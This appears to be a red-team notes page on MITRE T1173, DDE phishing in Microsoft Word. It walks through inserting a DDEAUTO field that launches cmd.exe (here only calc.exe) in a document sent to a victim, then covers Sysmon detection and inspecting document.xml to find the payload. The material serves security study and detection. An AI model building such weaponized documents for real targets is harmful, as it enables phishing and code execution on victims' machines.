








# T1173: Phishing - DDE

## Weaponization

Open a new MS Word Document and insert a field:



It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:



Toggle Field Codes will give this:



Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 
```

to get this:





## Execution

Once the victim launches the evil .docx by and accepts 2 prompts, the reverse shell \(or in this case a calc.exe\) pops:





## Observations



Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:



## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply unzip the archive for further inspection. 

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload in plain text:


```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>
```


## References




